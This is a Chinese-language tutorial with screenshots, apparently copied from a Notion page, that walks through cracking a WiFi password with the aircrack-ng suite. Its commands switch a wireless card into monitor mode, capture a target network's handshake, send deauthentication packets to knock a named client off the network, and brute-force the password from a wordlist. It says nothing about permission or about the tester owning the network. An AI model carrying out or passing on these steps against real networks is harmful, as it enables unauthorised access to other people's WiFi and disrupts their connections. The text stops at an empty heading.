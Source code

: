 第一步：检查无线网卡插上后，是否识别

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/28efabd8-5c25-47ac-8fed-7b1cde5babf6/20201011093354261.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/28efabd8-5c25-47ac-8fed-7b1cde5babf6/20201011093354261.png)

第二步：airmon-ng check kill (我的理解是杀死有可能妨碍监听模式的进程)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e9c6bf34-6dbd-4a15-a0c9-d3421c7d6f51/20201011093435169.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e9c6bf34-6dbd-4a15-a0c9-d3421c7d6f51/20201011093435169.png)

第三步：airmon-ng start wlan0 把无线网卡设置为监听模式

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1bf3505-8fd4-4f8f-80f8-c3ae155934d3/20201011093554376.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1bf3505-8fd4-4f8f-80f8-c3ae155934d3/20201011093554376.png)

第四步：airodump-ng wlan0 开启监听,确认目标，我们这里以DESKTOP-为例，
 CH表示的工作的信道

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2e9991fe-dfa2-42a0-bc31-b443abf1d145/20201011093700839.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2e9991fe-dfa2-42a0-bc31-b443abf1d145/20201011093700839.png)

第五步：对目标进行抓握手包，只要有设备重新连上这个WIFI，我们就能抓到握手包，但是一直等也不是办法，所以有了第六步

```
airodump-ng -c 1 -w ret --bssid A2:A4:C5:31:73:E7 wlan0mon
```

- c 1 表示信道1也就是目标的工作信道 -w ret 表示我们的结果将会存在ret文件里 –bssid A2:A4:C5:31:73:E7 表示目标的MAC地址 wlan0mon 表示监听的网卡

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a70cacf9-52c1-4e85-b09d-10d61cef9128/20201011094421850.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a70cacf9-52c1-4e85-b09d-10d61cef9128/20201011094421850.png)

第六步：强制使设备重连WIFI

```
aireplay-ng -0 10 -a A2:A4:C5:31:73:E7 -c CA:D0:15:1B:A0:F6 wlan0mon
```

10 表示发10个攻击包
 -a 表示WIFI的MAC地址
 -c 表示设备的MAC地址
 我们随便选一个把它强制断开WIFI，然后它会再自动连接这个WIFI
 我们就能拿到握手包

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3820ec7f-817c-4c8e-85c9-6d21dc1e762d/20201011095047535.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3820ec7f-817c-4c8e-85c9-6d21dc1e762d/20201011095047535.png)

这是我们拿到握手包后的截图

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4d467c0-7953-45d1-b89c-e098bef8f6d6/20201011095352489.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4d467c0-7953-45d1-b89c-e098bef8f6d6/20201011095352489.png)

第七步：开始暴力破解啦

```
aircrack-ng -w pwd.txt ret-01.cap

```

- w 表示指定的字典文件 ret-01.cap 是第五步我们指定的抓到的包存放的文件名**这个破解的速度还是非常可以的！！！**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5e99be77-9d3d-43f6-8af3-c5756bc0ed4c/20201011095943754.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5e99be77-9d3d-43f6-8af3-c5756bc0ed4c/20201011095943754.png)

### 暴力破解概述
